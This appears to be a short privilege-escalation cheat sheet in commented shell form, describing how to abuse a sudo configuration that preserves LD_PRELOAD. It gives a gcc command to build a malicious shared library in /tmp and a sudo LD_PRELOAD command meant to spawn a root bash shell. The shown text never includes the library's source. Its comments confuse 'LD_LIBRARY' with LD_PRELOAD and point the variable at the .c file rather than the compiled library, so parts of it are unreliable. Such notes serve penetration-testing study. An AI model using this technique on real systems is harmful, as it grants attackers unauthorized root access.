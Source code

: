 # Exploiting persisted LD_LIBRARY and LD_LIBRARY_PATH environment variables, with sudo permissions
# If 'sudo -l' shows that LD_LIBRARY persists through the sudo environment
# and there are commands that can be run as sudo, try this exploit

# First compile the preload.c file as a shared library and store in /tmp/ as /tmp/preload.so
# This is going to create a library to be run before everything else (LD_LIBRARY=/tmp/preload.c)
    gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c

# The compiled shared library contains a shell script that spawns a root bash shell
# The next step is to run sudo, specify the compiled .so file as the library to run first and then
# use one of the programs that the user is allowed to run as root, in order for everything to take place
# within an elevated privilege environment
    sudo LD_PRELOAD=/tmp/preload.so <program>

